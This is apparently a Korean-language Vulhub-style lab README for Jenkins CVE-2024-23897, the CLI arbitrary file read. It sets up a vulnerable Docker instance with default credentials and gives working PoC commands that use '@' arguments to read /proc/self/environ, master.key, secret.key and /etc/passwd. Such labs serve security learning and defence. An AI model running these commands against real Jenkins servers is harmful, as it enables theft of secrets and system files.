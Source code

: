 # CLI를 통한 Jenkins 임의 파일 읽기 취약점 (CVE-2024-23897)
> 본 프로젝트는 WHS3기 프로젝트의 일부로, Vulhub 한국어로 번역하고 구현하여 한국어판 vulhub를 제작하고자 하는 뜻에 합하여 제작하게 되었습니다. 
### Jenkins
Jenkins는 오픈소스 자동화 서버로 주로 지속적 통합/지속적 배포 (CI/CD)를 지원하는 도구이다.    
**발견된 취약점**
Jenkins는 CLI 명령을 처리할 때 args4j 라이브러리를 사용하여 Jenkins 컨트롤러에서 명령 인수와 옵션을 파싱한다.    
이 명령 파서는 인수의 @파일 경로 앞에 오는 문자를 파일 내용으로 바꾸는 기능(expandAtFiles)을 가지고 있는데, 이를 통해 공격자는 Jenkins 서버에서 임의의 파일을 읽을 수 있다.     
**args4j**    
명령줄 옵션/인수를 쉽게 구문 분석할 수 있는 작은 Java 클래스 라이브러리
### target
Jenkins 2.441 이전 버전
## 취약한 환경 구성하기
Jenkins server 2.441를 실행시킨다.
```
docker compose up -d
 ```
위의 명령어를 실행시키면 서버에 접속할 수 있게 된다
```http://localhost:8080/``` or ```http://본인-ip주소:8080/```
![Alt text](Jenkins-vul/CVE-2024-23897-Poc/스크린샷 2025-04-27 181243.png)
**접속아이디/패스워드** : id: 'admin' passwd: 'vulhub'      
**컨테이너 접속하기**       
> ```docker ps -a #위의 명령어로 실행시킨 컨테이너 이름 확인하기
> sudo docker exec -it {container ID} /bin/bash #컨테이너 bin/bash로 들어가기
```
## PoC
1. ```jenkins-cli.jar```을 해당 링크, ```http://localhost:8080/jnlpJars/jenkins-cli.jar```로부터 다운로드한다.
```
apt update #패키지 설치를 위한 준비
apt upgrade
apt install wget #wget 패키지 설치
wget 'http://localhost:8080/jnlpJars/jenkins-cli.jar' #해당 링크로 부터 jenkins-cli.jar 설치
```
2. '/proc/self/environ' 파일을 읽는다. 'JENKINS_HOME=/var/jenkins_home'
```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/proc/self/environ"
```
![Alt text](Jenkins-vul/CVE-2024-23897-Poc/image2.png)
3. 이후, 민감한 파일을 얻을 수 있다. ex) 'secrets.key' or 'master.key'
```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secret.key"
```
![Alt text](Jenkins-vul/CVE-2024-23897-Poc/image3.png)
```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secrets/master.key"
```
![Alt text](Jenkins-vul/CVE-2024-23897-Poc/image4.png)
- 익명 읽기 액세서 허용이 켜져 있었기 때문에 전체 내용을 읽을 수 있었다.
```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http connect-node "@/etc/passwd"
```
![Alt text](Jenkins-vul/CVE-2024-23897-Poc/image5.png)
## 참고문헌
<https://github.com/vulhub/vulhub/tree/master/jenkins/CVE-2024-23897#vulnerable-environment>
<https://www.jenkins.io/security/advisory/2024-01-24/#SECURITY-3314>
<https://mp.weixin.qq.com/s/2a4NXRkrXBDhcL9gZ3XQyw>
<https://digitalbourgeois.tistory.com/227>

